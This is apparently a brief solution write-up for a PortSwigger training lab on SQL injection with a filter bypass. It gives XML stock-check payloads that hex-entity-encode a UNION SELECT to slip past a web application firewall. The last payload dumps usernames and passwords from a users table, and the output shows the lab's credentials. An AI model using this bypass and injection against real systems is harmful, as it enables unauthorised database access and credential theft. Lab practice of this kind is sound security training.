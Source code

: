 # Lab: SQL injection with filter bypass via XML encoding

# https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding

```bash
  <?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>
1</productId>
<storeId>
1 UNION SELECT NULL
</storeId>
</stockCheck>

# "Attack detected"
```
```bash
# We will use hackvector. Encode as hex_entities
<storeId>
<@hex_entities>
1 UNION SELECT NULL<@/hex_entities>
</storeId>


# 813 units
# null
```
```bash

<storeId>
<@hex_entities>
1 UNION SELECT username || ' ' || password from users <@/hex_entities>
</storeId>


administrator km19istcqbngmes4dg7h
wiener wxj5vi70szhn1w0se8wn
carlos ecs7vtufrojfbc0alz1w
813 units
``
